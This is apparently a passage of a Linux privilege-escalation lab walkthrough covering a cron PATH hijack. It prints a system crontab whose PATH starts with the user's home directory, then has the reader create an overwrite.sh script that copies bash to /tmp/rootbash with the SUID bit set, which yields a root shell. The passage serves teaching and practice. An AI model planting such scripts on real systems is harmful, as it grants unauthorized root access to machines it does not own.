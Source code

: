 ```
exit
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```


Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab:

```
cat /etc/crontab

user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

```

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

```
rootbash-4.1# nano overwrite.sh

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash

```

Make sure that the file is executable:

```
user@debian:~$ chmod +x overwrite.sh 

```

